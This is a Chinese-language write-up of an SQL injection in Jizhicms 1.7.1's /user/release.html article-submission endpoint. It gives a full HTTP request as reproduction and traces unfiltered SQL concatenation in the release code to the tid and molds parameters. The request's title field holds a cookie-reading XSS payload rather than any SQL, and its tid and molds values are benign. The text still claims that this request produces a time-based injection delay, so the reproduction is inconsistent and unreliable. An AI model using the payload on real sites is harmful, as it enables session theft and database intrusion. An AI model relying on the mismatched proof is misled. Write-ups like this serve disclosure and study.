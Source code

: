 # Jizhicms 1.7.1 ./user/release.html sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Jizhicms 1.7.1

## 三、复现过程

同样还是在发表文章这

```bash
POST /user/release.html HTTP/1.1
Host: www.baidu.com:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 153
Origin: http://www.baidu.com:8091
Connection: close
Referer: http://www.baidu.com:8091/user/release/molds/article.html
Cookie: PHPSESSID=84mcpgsvrgnfag0fnl3ngjm2eo; XDEBUG_SESSION=PHPSTORM

ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=123&litpic=&description=123

```

![1.png](images/2020_06_13/b892e0d3e243496cafd5083f8fc657e9.png)

![2.png](images/2020_06_13/e0e02f9f27974833b23c09d419710217.png)

可以看到有明显的时间延迟，存在基于时间的延迟注入

为了直观的展示是否进行了拼接sql语句的操作，监控下sql语句的执行，在mysql监控工具中可以看到没有任何过滤就进行了sql语句的拼接，触发了sql注入漏洞

![3.png](images/2020_06_13/f66b729c24304b34a740619564510c2d.png)

定位到漏洞函数release函数，重点关注下sql语句的拼接问题，一共有两处进行了sql的拼接，只要在进行拼接前没有进行过滤就会存在sql注入漏洞

![4.png](images/2020_06_13/8d130f52249249d1a26e1b274b78bdf7.png)

其中$this->classtypedata对应的是数据库中的classtype表中的数据

![5.png](images/2020_06_13/72f23184a1684c87845a302c2c4ec557.png)

然后跟进到get_fields_data函数，根据xdebug调试代码的运行情况，发现fields为空，所以会直接返回data,其中并没有进行任何过滤

![6.png](images/2020_06_13/55b59de638fa47dea5b8955869d77e5f.png)

在release函数函数中只是要求$w['tid']!=0即可，所以我们可以在tid参数和molds参数处构造sql注入语句

![7.png](images/2020_06_13/8017e22927bd4b36b3372a9401a77f19.png)

用slmap跑的结果

![8.png](images/2020_06_13/68fa7ebd2b26407f937f130541859cea.png)

## 参考链接

> https://xz.aliyun.com/t/7861#toc-2
